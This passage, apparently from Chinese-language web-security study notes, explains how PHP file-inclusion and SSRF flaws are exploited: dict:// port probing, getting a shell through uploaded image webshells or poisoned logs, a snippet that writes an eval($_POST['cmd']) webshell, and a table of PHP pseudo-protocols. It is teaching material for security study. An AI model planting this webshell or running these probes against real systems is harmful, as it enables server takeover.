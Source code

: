 #### (3). 漏洞利用

1. 端口探测

   ```php
   url=dict://ip:80
   [URL]?action=dict://192.168.41.46:80	//探测80端口
   ```

2. 包含上传的Getshell

   * 上传图片马，利用文件包含调用图片马，使用工具进行连接

3. 包含日志文件Getshell

   * **构造报错信息写进错误日志**

4. 远程文件包含写Shell

   ```php
   <?php
   	fputs(fopen('shell.php','w'),'<?php eval($_POST['cmd']);?>');    
   ?>
   ```

5. 使用**PHP伪协议**写Getshell

#### (4). 伪协议

* PHP伪协议事实上就是**支持的协议**与**封装协议**

  | 伪协议  | 说明                |
  | ------- | ------------------- |
  | file:// | 访问本地文件系统    |
  | http:// | 访问HTTP(s)网址     |
  | ftp://  | 访问FTP(s)的URLS    |
  | php://  | 访问各个输入/输入流 |
  | zlib:// | 压缩流              |
  | data:// | 数据(RFC2397)       |
  | rar://  | RAR                 |

##### a. file://协议

1. 用途

   * 访问到**本地系统文件**

2. 使用条件

   * allow_url_fopen = on/off
   * allow_url_include = on/off
   * 知道**绝对路径**

3. 使用方法
